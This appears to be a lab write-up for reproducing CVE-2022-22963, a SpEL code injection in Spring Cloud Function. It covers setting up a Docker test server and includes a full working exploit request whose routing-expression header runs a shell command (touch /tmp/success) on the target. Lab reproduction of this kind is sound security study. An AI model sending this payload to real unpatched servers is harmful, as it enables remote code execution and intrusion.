


Spring Cloud Function SpEL Code Injection (CVE-2022-22963)¶
Spring Cloud Function provides a common model for deploying function-based software on a variety of platforms, including FaaS (function as a service) platforms like Amazon AWS Lambda.
References:
- https://tanzu.vmware.com/security/cve-2022-22963
- https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw
- https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f
Vulnerability Environment¶
Execute the following command to start a server that uses Spring Cloud Function 3.2.2:
docker compose up -d
After server is started, execute curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test you can convert the user input to uppercase.
Vulnerability Reproduce¶
There is a SpEL expression injection in the request header spring.cloud.function.routing-expression.
Send the following request to execute touch /tmp/success on the target server:
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4
test

As you can see, touch /tmp/success has been executed successfully.
